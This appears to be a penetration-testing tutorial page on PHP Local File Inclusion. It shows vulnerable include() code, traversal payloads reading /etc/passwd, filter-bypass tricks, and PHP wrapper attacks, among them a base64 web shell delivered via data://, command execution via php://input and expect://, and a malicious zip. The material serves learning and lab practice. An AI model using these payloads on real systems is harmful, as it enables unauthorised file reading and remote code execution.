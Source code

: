 # Local File Inclusion \(LFI\)

## Local File Inclusion

Local File Inclusion is a vulnerability that allows us to include files that are on the target server. Server-side languages such as PHP or JSP can dynamically include external scripts, reducing the script's overall size and simplifying the code. Attackers can include both local and remote files if this inclusion logic isn't checked, which could lead to source code leakage, sensitive data exposure, and code execution under some circumstances.

## LFI Examples

### LFI with Path Traversal

Developers may specify absolute paths when including files.

```php
include("./languages/" . $_GET['language']);
```

The statement above includes the files present in the languages folder. 

**Another Example**

Input from parameters can even be used as part of filenames. For example:

```php
include("lang_" . $_GET['language']);
```

In this scenario, input such as `../../../../../etc/passwd` will result in the final string to be `lang_../../../../../etc/passwd`, which is invalid. Prefixing a `/` before the payload will bypass the filename and traverse directories instead.

### LFI with Blacklisting

Scripts can employ search and replace techniques to avoid path traversals. 

```php
$language = str_replace('../', '', $_GET['language']);
```

It is not removing `../` recursively, which means removing the occurrences from the string a single time. If removing `../`, creates a new instance of `../`, the new instance will not be removed. For example, both `..././` and `....//` would become `../` after the replace function.

```php
$lfi = "....././/..../..//filename";
while( substr_count($lfi, '../', 0)) {
 $lfi = str_replace('../', '', $lfi);
};
```

Of course, the easiest method to fix this is to use `basename($ GET['language'])`, however this could damage your application if it goes inside a directory. While the following example works, it's ideal to try to find a native function to do the activity in your language or framework. Use a bash terminal and go into your home directly \(cd ~ / cd $HOME\) and run the command `cat .?/.*/.?/etc/passwd`. You'll see Bash allows for for the `?` and `*` wildcards to be used as a `.`.  We can use those symbols with directory traversal to achieve an LFI.

### **Bypass with URL Encoding**

String-based detection in PHP versions 5.3.4 and before could be circumvented by URL encoding the payload. The characters `../` can be URL encoded as `%2e%2e%2f` to avoid the filter.

The payload could be:`%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd`

### LFI with Appended Extension

Scripts can manually append a `.php` or any other required extension before including the file, which serves as mitigation against the inclusion of arbitrary files.

```php
include($_GET['language'] . ".php");
```

## Bypass Extensions Filters

%00 = Null bytes terminate the string, this trick can be used to bypass file extensions added server-side and are useful for file inclusions because it prevents the file extension from being considered as part of the string. 

? = The question mark, marks anything added to the URL server-side as part of the query string. It can also use be used as an "alternative" to the null bytes trick.

## Wrappers

{% embed url="https://www.php.net/manual/en/wrappers.php" %}

### Expect Wrapper

The [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.

* `http://victim.vmx/index.php?language=expect://id`

### Data Wrapper

The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, even PHP code. It's possible to use this only if the `allow_url_include` setting is enabled in the PHP configuration. This can be found in the file `/etc/php/X.Y/apache2/php.ini` for Apache and in `/etc/php/X.Y/fpm/php.ini` for php-fpm used by Nginx, where `X.Y` is your install PHP version.

First, base64 encode a PHP web shell.

```text
wixnic@htb[/htb]$ echo '<?php system($_GET['cmd']); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=
```

Then include it using the data wrapper as shown below.

* `http://victim.vmx/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id`

### Input Wrapper

The [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute code. In PHP it also needs the `allow_url_include` setting enabled. The following curl command sends a POST request with a system command and then includes it using `php://input`, which gets executed by the page.

```text
wixnic@htb[/htb]$ curl -s -X POST --data "<?php system('id'); ?>" "http://victim.vmx/index.php?language=php://input" | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Zip Wrapper

The [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper can prove useful in combination with file uploads. If the website enables arbitrary file uploads, an attacker might upload a malicious zip file containing PHP code. This wrapper isn't enabled by default, however, it can be activated with the command below.

```text
wixnic@htb[/htb]$ apt install phpX.Y-zip
```

Follow the steps below to create a malicious archive.

```text
wixnic@htb[/htb]$ echo '<?php system($_GET['cmd']); ?>' > exec.php
wixnic@htb[/htb]$ zip malicious.zip exec.php
wixnic@htb[/htb]$ rm exec.php
```

Next, copy `malicious.zip` to the web root to simulate the upload. The files in the zip archive can be referenced using the `#` symbol, which is URL-encoded in the request as `%23`.

